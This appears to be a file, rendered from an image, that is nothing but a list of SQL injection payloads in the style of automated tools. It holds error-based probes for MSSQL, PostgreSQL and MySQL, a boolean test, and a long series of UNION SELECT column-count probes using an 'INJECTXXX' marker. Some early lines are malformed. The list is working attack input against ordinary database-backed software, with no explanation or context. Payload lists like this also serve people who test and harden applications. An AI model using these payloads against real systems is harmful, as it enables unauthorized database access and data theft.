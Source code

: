 ```
 UNION ALL SELECT NULL 
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)))
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)+CHAR(88)))
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)+CHAR(88)+CHAR(88)))
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)+CHAR(88)+CHAR(88)+CHAR(88)))
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)+CHAR(88)+CHAR(88)+CHAR(88)+CHAR(88)))
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)+CHAR(88)+CHAR(88)+CHAR(88)+CHAR(88)+CHAR(88)))
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)))
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)))
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)))
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)))
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)))
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)))
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)))
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)+CHAR(65)))
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)+CHAR(65)+CHAR(113)))
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)+CHAR(65)+CHAR(113)+CHAR(112)))
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)+CHAR(65)+CHAR(113)+CHAR(112)+CHAR(106)))
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)+CHAR(65)+CHAR(113)+CHAR(112)+CHAR(106)+CHAR(107)))
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)+CHAR(65)+CHAR(113)+CHAR(112)+CHAR(106)+CHAR(107)+CHAR(113)))
 AND 5650=CONVERT(INT,(SELECT CHAR(113)+CHAR(106)+CHAR(122)+CHAR(106)+CHAR(113)+(SELECT (CASE WHEN (5650=5650) THEN CHAR(49) ELSE CHAR(48) END))+CHAR(113)+CHAR(112)+CHAR(106)+CHAR(107)+CHAR(113)))
 AND 3516=CAST((CHR(113)||CHR(106)||CHR(122)||CHR(106)||CHR(113))||(SELECT (CASE WHEN (3516=3516) THEN 1 ELSE 0 END))::text||(CHR(113)||CHR(112)||CHR(106)||CHR(107)||CHR(113)) AS NUMERIC)
 AND (SELECT 4523 FROM(SELECT COUNT(*),CONCAT(0x716a7a6a71,(SELECT (ELT(4523=4523,1))),0x71706a6b71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.CHARACTER_SETS GROUP BY x)a)
 UNION ALL SELECT CHAR(113)+CHAR(106)+CHAR(122)+CHAR(106)+CHAR(113)+CHAR(110)+CHAR(106)+CHAR(99)+CHAR(73)+CHAR(66)+CHAR(109)+CHAR(119)+CHAR(81)+CHAR(108)+CHAR(88)+CHAR(113)+CHAR(112)+CHAR(106)+CHAR(107)+CHAR(113),NULL-- 
 UNION ALL SELECT 'INJ'||'ECT'||'XXX'
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19
```